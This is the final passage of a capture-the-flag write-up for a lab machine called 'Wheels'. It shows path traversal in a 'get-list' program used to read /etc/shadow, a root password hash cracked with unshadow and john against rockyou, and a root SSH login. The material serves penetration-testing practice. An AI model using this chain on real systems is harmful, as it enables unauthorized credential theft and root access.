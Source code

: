 **/etc/shadow**

```sh
bob@wheels:/opt$ ./get-list

Which List do you want to open? [customers/employees]: ../../etc/shadow #employees
Opening File....

root:$6$Hk74of.if9klVVcS$EwLAljc7.DOnqZqVOTC0dTa0bRd2ZzyapjBnEN8tgDGrR9ceWViHVtu6gSR.L/WTG398zZCqQiX7DP/1db3MF0:19123:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
...
```

Use the `unshadow` tool to combine the passwd and shadow file together which later can be used to crack the hashes using john.

```sh
naveenj@hackerspace:|01:08|~/proving_grounds/Wheels$ unshadow passwd shadow > crackme 
naveenj@hackerspace:|01:08|~/proving_grounds/Wheels$ john crackme --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
highschoolmusical (root)     #root password
1g 0:00:05:00 5.27% (ETA: 02:44:00) 0.003327g/s 2877p/s 2899c/s 2899C/s marquie1..marlai
```

SSH to root using the credential `root:highschoolmusical`.

```sh
naveenj@hackerspace:|02:52|~/proving_grounds/Wheels$ ssh root@192.168.196.202
root@192.168.196.202's password: 
Last login: Sun Oct  8 05:09:27 2023 from 192.168.45.153
root@wheels:~# 
```

**Root Obtained**

## References

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md#exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md#exploitation)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).